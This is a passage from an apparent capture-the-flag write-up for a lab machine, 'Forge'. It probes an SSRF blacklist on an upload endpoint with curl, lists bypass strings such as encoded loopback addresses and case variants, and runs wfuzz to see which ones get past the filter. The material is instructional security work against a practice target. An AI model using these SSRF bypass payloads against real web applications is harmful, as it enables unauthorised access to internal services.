 
My first theory is that “admin” might be triggering it. I know I need to start
with “http://” or it will return “Invalid Protocol”. So I’ll try
`http://admin` to see if it triggers. It doesn’t, but `http://admin.forge.htb`
does:

    
    
    oxdf@hacky$ curl -s -d 'url=http://admin' -d 'remote=1' http://forge.htb/upload | grep blacklisted
    oxdf@hacky$ curl -s -d 'url=http://admin.forge.htb' -d 'remote=1' http://forge.htb/upload | grep blacklisted
                <strong>URL contains a blacklisted address!</strong>
    

In fact, just “forge.htb” seem to trigger it:

    
    
    oxdf@hacky$ curl -s -d 'url=http://forge.htb&remote=1' http://forge.htb/upload | grep blacklisted
                <strong>URL contains a blacklisted address!</strong>
    

Similar steps show that “127.0.0.1” and “0.0.0.0” are also blocked.

#### Bypassing

I came up with a short list of potential bypasses, as well as the three known
blocked terms:

    
    
    forge.htb
    fOrge.htb
    fOrge
    forge.HTB
    127.0.0.1
    127.0.0.2
    127.1
    0177.0.0.01
    0x7f.0.0.0x1
    0.0.0.0
    0
    user:heightofsecurity123!@
    localhost
    loCalhost
    

Now `wfuzz` can try each of these. With the `-hs blacklisted` it will hide
responses with the failed term in the response, and show what was allowed:

    
    
    oxdf@hacky$ wfuzz -w denylist-check -d 'url=http://FUZZ&remote=1' --hs blacklist
    ed http://forge.htb/upload
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://forge.htb/upload
    Total requests: 14
    